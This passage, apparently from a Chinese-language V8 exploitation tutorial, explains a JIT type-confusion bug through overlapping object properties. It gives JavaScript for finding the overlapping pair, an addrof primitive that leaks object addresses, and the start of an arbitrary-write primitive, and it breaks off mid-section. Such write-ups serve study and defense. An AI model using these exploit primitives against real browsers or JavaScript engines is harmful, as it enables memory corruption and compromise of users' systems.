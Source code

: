 ```plain
check_vul();
print("[+] Finding Overlapping Properties...");
findOverlapping();
print(`[+] Properties b${p1} and p${p2} overlap!`);
```

很容易可以找到我们需要的两个属性。

```plain
[+] Finding Overlapping Properties...  
[+] Properties b12 and b21 overlap!
```

### Addr Of

`Addrof`是一个在V8利用中很常见的原语，用来泄露一个`obj`的地址。当我们有类型混淆漏洞时，这个原语的实现就十分简单，在前面也介绍过。我们将上一步中得到的第一个属性记为`p1`，第二个属性记为`p2`，由于对`p1`的访问实际上是对`p2`内容的访问，设置属性`p1`为`Number`，属性`p2`为想要泄露地址的`Object obj`，通过读取`p1`就可以读取出`obj`的地址。

```plain
function addrof(obj) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    return obj.b${p1}.x1;
  }
`);


  let values = [];
  values[p1] = { x1: 1.1, x2: 1.2 };
  values[p2] = { y: obj };

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    if (res != 1.1) {
      print(`[+] Object Address: ${Int64.fromDouble(res).toString()}`);
      return res;
    }
  }
  throw "[!] AddrOf Primitive Failed"
}
```

上面的代码中，`vuln`函数访问了`p1`的`x1`，在产生优化之后，会访问到`p2`的`y`也就是`obj`，从而以浮点数返回`obj`的地址。

### Arbitrary Write

同样，我们可以构造一个`Object`，如下面的`o`，其中的各个属性均为`Number`。

```plain
let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;
```
